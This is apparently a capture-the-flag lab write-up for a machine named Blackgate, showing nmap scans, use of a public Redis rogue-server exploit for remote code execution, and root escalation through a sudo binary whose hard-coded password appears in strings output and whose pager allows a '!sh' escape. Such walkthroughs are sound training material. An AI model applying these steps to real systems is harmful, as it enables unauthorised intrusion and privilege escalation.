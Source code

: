 # Blackgate

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.176
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:04 +08
Nmap scan report for 192.168.197.176
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
6379/tcp open  redis
```

Only Redis. We can do a detailed scan for this port.&#x20;

```
$ sudo nmap -p 6379 -sC -sV -O -T4 192.168.197.176                                 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:05 +08
Nmap scan report for 192.168.197.176
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.14
```

### Redis RCE

This version of Redis is vulnerable to the Redis Rogue Server exploit:

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

Getting a reverse shell via a bash one-liner is trivial:

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Redis-Status

We had some `sudo` privileges as this user:

```
prudence@blackgate:/tmp$ sudo -l
Matching Defaults entries for prudence on blackgate:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prudence may run the following commands on blackgate:
    (root) NOPASSWD: /usr/local/bin/redis-status
```

I did some basic enumeration of this binary, such as running `strings`:

```
prudence@blackgate:~$ strings /usr/local/bin/redis-status
/lib64/ld-linux-x86-64.so.2
gets
puts
printf
stderr
system
fwrite
strcmp
__libc_start_main
libc.so.6
GLIBC_2.2.5
__gmon_start__
H=X@@
[]A\A]A^A_
[*] Redis Uptime
Authorization Key: 
ClimbingParrotKickingDonkey321
```

There is a password within it. When we run the binary and supply the password, we get this 'terminal' thing:

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

This output looks a bit like `less`, so I tried to escape this limited shell with `!sh` and it worked.

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

Rooted!
